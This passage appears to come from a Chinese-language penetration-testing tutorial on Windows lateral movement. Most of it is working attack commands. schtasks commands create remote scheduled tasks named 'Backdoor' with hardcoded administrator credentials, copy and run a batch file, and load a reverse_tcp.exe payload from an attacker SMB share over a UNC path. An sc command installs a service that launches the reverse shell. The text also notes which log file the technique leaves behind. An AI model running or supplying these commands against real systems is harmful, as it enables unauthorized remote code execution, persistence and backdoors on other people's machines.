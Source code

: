 -   删除计划任务shell

```plain
schtasks /Delete /S 192.168.1.131 /TN Backdoor /F
```

也可以通过计划任务执行系统命令，将执行结果写入文件，然后使用type命令查看文件

```plain
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR "c:\windows\system32\cmd.exe /c 'whoami' > c:\users\public\result.txt" /RN System /F


type \\192.168.1.131\C$\users\public\result.txt
copy C:\Users\Administrator\Desktop\hack.bat \\192.168.1.131\c$\Windows\Temp

schtasks /create /tn hack /tr C:\Windows\Temp\hack.bat /sc ONSTART /s 192.168.1.131 /ru "system" /u administrator /p 123qwe@

schtasks /run /tn hackk /s 192.168.1.131

type \\192.168.1.131\c$\Windows\Temp\result.txt

schtasks /delete /s 192.168.1.131 /u administrator /p 123qwe@ /tn hackk /f
```

**注意：在使用schtasks命令时，会在系统中留下日志文件C:\\Windows\\Tasks\\SchedLgU.txt。**

### [UNC路径加载执行](#toc_unc)

Windows系统使用UNC路径来访问网络共享资源，格式为

```plain
\\servername\sharename\directory\filename # servername 服务器； sharename 网络共享名字
```

攻击载荷在远程主机上时，可以直接使用UNC路径代替常规的本地路径，让目标主机直接在测试人员搭建的Smb共享中加载攻击载荷并执行。这样可以省去手动上传载荷的步骤。

例如：

```plain
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR \\192.168.1.1\mysmb\reverse_tcp.exe /RN System /F
```

### [sc（系统服务）](#toc_sc)

创建远程服务需要拥有**两端主机的管理员权限（要创建服务）**和IPC连接，具体操作：

1.  利用已建立的共享连接向远程主机上传攻击载荷reverse\_tcp.exe
2.  利用已建立的IPC连接在远程主机上创建系统服务shell

```plain
sc \\192.168.1.131 create Backdoor binpath= "cmd.exe /k c:\users\public\reverse_tcp.exe"
# binpath的等号后面需要有一个空格
```

-   删除服务shell
